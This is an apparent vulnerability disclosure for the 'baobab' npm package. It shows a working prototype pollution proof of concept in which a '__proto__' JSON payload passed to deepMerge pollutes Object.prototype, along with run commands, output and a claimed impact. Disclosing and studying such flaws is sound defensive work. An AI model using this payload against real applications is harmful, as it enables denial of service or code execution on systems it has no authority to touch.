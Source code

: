 # Description

`baobab` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const Baobab = require('baobab');

console.log('Before: ' + {}.polluted)
tree = new Baobab()
tree.deepMerge(JSON.parse('{"__proto__": {"polluted": true}}'))
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i baobab # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
